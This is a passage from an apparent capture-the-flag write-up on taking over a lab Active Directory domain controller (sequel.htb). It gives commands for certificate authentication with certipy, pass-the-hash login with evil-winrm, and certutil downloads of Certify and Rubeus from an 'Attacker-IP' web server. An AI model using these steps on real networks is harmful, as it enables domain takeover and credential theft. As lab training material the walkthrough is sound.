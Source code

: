 If we've done everything correctly, we'd get a `.pfx` certificate file which can be used to authenticate the DC using the `auth` command. 
```Certipy
certipy auth -pfx administrator.pfx -domain sequel.htb -username administrator -dc-ip 10.10.11.202
```
Sometimes, our system time and the time on the DC are different. So, we could use `ntpdate` or `faketime` to sync the time between our system clock and the DC clock. If the clocks are synced up and the certificate is a correct one, we'll get a NTLM hash of _Administrator_.

We could use `evil-winrm` again to perform a **PassTheHash** attack on the DC. NTLM hashes are in the format of **LM:NT** and we only need **NT** hashes to authenticate. Therefore, we'll use only the latter half of the hash.
```evil-winrm
evil-winrm -i 10.10.11.202 --user 'Administrator' -hash '$$NT HASH HERE$$'
```


## Certify.exe + Rubeus.exe
`Certify.exe` and `Rubeus.exe` are both C# tools used for Active Directory. [Certify.exe](https://github.com/GhostPack/Certify) is intended for enumerating and abusing Active Directory Certificate Services and [Rubeus.exe](https://github.com/GhostPack/Rubeus) is for abusing Kerberos interactions. We can get pre-compiled executables from this [repository](https://github.com/Flangvik/SharpCollection) 

We'll just download those to our machine first just in case if we needed those in the future. After we've downloaded it to our machine, we'll host a web server with python so that the victim machine could download those to their machine. 
```bash
python3 -m http.server 80    # Attacker machine

certutil -urlcache -f http://Attacker-IP/Certify.exe certify.exe   # Victim machine
certutil -urlcache -f http://Attacker-IP/Rubeus.exe rubeus.exe
```

With `Certify.exe`, we can find vulnerable certificate services by simply running - 
```Powershell
./Certify.exe find /vulnerable
```
and here's the output -

![Enumerating with Certify.exe](Images/certify-find.png)
